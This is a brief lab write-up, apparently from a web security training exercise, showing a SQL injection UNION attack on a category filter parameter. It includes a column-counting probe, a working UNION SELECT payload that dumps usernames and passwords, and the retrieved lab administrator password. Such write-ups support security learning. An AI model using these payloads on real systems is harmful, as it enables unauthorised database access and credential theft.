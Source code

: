 # Lab: SQL injection UNION attack, retrieving multiple values in a single column

Target : Perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.

Analysis:

- `Corporate+gifts'+order+by+2+--`
  - 2 columns the second one is the string column
-`/filter?category=Corporate+gifts'+UNION+SELECT+NULL,CONCAT(username,'+->+',password)+FROM+users+--`
-`administrator:avv65lc55npmaik0koq8`
